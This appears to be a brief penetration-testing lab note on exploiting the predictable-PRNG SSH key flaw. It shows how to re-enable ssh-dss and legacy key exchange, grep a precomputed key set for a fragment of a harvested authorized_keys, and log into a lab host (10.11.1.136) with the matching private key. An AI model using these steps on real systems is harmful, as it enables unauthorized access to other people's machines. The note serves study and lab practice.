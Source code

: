 # SSH 
---
If we ever get authorized_keys for a pc, download this repo from github:
https://gitbook.brainyou.stream/basic-linux/ssh-key-predictable-prng-authorized_keys-process

if the authorized_key is a ssh-dss, add this to /etc/ssh/ssh_config
```txt
PubkeyAcceptedKeyTypes +ssh-dss
```

Alternatively we can specify the public key while doing ssh into the server with the -o switch:
```bash
ssh -p 22 -i id_rsa -oKexAlgorithms=+diffie-hellman-group1-sha1 -o 'PubkeyAcceptedKeyTypes +ssh-dss' bob@10.11.1.136
```

Now go into the repo /dsa/1024
Grep for the first 30 or so characters of the retrieved authorized_keys:

```bash
grep -lr 'AAAAB3NzaC1kc3MAAACBAOgzzMCD3Im5bRnAVdV3yLwTsyNAi3IiFShIfx9'
```

Find the exact match for private key and use the private key to log into the server.
